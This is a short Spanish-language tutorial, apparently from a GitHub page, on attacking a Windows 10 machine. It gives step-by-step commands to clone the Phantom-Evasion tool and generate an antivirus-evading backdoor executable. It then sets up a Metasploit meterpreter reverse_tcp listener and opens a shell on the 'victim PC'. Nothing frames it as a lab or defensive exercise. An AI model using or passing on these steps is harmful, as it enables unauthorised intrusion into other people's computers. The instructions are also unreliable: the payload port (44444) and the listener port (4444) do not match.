


# Cracking Windows 10

<br>

<p align="center">

</p>

<br>

Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">

</p>

<br>
Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 44444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 



Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion